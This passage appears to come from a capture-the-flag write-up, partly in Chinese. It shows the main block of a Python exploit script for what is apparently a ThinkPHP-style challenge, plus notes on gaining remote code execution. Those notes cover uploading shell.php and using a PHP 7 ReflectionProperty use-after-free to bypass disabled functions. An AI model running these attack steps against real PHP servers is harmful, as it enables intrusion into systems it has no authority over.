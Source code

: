 ```python


if __name__ == "__main__":
    signin()
    modify_func("think\\__include_file")
    filename = upload(True)
    pic_id = upload()
    execute_function(pic_id, filename)
```

## RCE
* 上传shell.php后
* php版本7.4.0
* 使用PHP7 ReflectionProperty UAF漏洞来rce绕过disable function（蚁剑有插件）
* 或者使用scandir、readfile直接读flag，出题人的/readflag是假的
* 读/readflag里有一个假的flag文件名

